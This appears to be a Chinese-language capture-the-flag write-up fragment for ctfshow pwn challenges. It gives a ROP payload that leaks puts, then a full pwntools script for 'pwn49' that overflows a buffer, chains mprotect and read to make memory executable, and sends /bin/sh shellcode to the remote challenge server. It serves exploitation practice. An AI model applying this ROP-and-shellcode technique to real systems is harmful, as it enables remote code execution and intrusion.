返回地址0，令程序崩溃，泄露puts地址后程序崩溃
payload = cyclic(0x9C+4)+p32(puts_plt)+p32(main)+p32(puts_got)
返回main函数，程序继续运行
pwn49
mprotect函数
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
io = remote('pwn.challenge.ctf.show',28263)
elf =ELF('pwn49')
mprotect = elf.symbols['mprotect']
read=0x0806BEE0
pop_ebx_esi_ebp_ret =0x080a019b
addr=0x080DA000
size=0x2000
proc=0x7
payload=cyclic(0x12+4)+p32(mprotect)
payload+=p32(pop_ebx_esi_ebp_ret)+p32(addr)+p32(size)+p32(proc)+p32(read)+p32(pop_ebx_esi_ebp_ret)+p32(0)+p32(addr)+p32(size)+p32(addr)
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode) #用于生成一个执行/bin/sh
io.recv()
io.interactive()
